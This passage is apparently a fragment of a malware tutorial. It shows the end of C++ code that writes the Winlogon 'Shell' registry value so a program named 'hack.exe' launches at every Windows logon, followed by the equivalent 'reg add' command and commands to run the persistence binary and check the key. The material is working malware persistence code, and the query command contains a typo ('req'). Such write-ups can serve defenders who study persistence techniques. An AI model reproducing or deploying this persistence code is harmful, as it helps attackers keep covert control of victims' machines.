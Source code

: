 ```cpp
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" /v 
    // "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
    REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That is, our malware is located along the path: `Z:\...\hack.exe` instead of `C:\Windows\System32\hack.exe`.    

Run:

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```

![pers](./images/58/2022-06-12_14-26.png){width="80%"}    

